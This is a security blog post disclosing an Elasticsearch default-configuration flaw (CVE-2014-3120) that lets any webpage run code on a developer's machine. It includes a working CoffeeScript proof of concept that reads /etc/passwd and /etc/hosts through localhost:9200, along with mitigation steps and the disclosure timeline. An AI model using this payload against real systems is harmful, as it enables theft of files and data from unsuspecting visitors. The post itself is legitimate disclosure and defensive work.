 ```yaml
---
layout: post
title: Insecure default in Elasticsearch enables remote code execution

---
```


Elasticsearch has a flaw in its default configuration which makes it possible for any webpage to execute arbitrary code on visitors with Elasticsearch installed. If you're running Elasticsearch in development please read [the instructions](#how_to_secure_against_this_issue) on how to secure your machine. Elasticsearch version 1.2 (which is unreleased as of writing) is not vulnerable to remote code execution, but still has some security concerns.

## The problem(s)
There are a couple of problems which enable the proof of concept I'm going to present:

* Elasticsearch has no access roles or authentication mechanism. This means that you have full control over a cluster the moment you connect to it.
* The API for Elasticsearch is accessible over <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html" target="_blank">HTTP</a> and provides no CSRF protection whatsoever.
* It contains a <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html" target="_blank">feature</a> which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function while searching through documents. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
* Up to version 1.2 <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_enabling_dynamic_scripting" target="_blank">dynamic scripting</a> (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.

There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch, you probably have it running on your machine. The default port is `9200` and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.

## PoC
The following script will read `/etc/hosts` and `/etc/passwd` from a user visiting a webpage and display the contents in the browser.

{% highlight coffeescript %}
read_file = (filename) ->
  """
  import java.io.File;
  import java.util.Scanner;
  new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
  """

# This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
$ ->
  payload = {
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {}
  }

  for filename in ["/etc/hosts", "/etc/passwd"]
    payload["script_fields"][filename] = {"script": read_file(filename)}

  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
    console.log(data)
    for hit in data["hits"]["hits"]
      for filename, contents of hit["fields"]
        document.write("<h2>#{filename}</h2>")
        for content in contents
          document.write("<pre>" + content + "</pre>")
        document.write("<hr>")
{% endhighlight %}

You can verify whether you're vulnerable by trying out the above PoC <a href="/blog/elasticsearch-rce/poc.html" target="_blank">here</a>.

There are many ways to exploit this, you could link the victim to the page or embed it as an Iframe. You can even exploit this by crafting a URL and using it as the `src` of an `<img>`, as the only thing that needs to happen is a single GET request. No user interaction required!

Because this is so easily exploitable you can mass-pwn developers with relatively little work.

## How to secure against this issue

Add the following line to your `elasticsearch.yml` to disable dynamic scripting and prevent remote code execution:

{% highlight yaml %}
script.disable_dynamic: true
{% endhighlight %}

You should also make sure that your local Elasticsearch instance is only binding on `localhost`, as someone could exploit you over LAN if you don't. The Homebrew Elasticsearch formula does this automatically.

If you want to be as secure as possible, you should run Elasticsearch inside a virtual machine, to make sure it has no access to the hosting machine at all.

## Additional targets

Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included. This is impossible to fix by the Elasticsearch developers without adding authentication or CSRF protection.

If an attacker can figure out the internal address of your production Elasticsearch instance, you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to the Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.

### Notes

* I have reserved [CVE-2014-3120](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120) for this issue.
* This exploit was tested against Elasticsearch version 1.1.1 on MacOSX installed through Homebrew. No configuration changes were made.
* I notified Elasticsearch through their [security report instructions](http://www.elasticsearch.org/community/security/) on the 26th of April 2014. They replied they were aware of it, but didn't intend to do a security release and instead [disable](https://github.com/elasticsearch/elasticsearch/issues/5853) dynamic scripting by default in version 1.2.
* This security issue has been indepently discovered and [blogged about](https://www.found.no/foundation/elasticsearch-security/#staying-safe-while-developing-with-elasticsearch) on December 9th 2013.
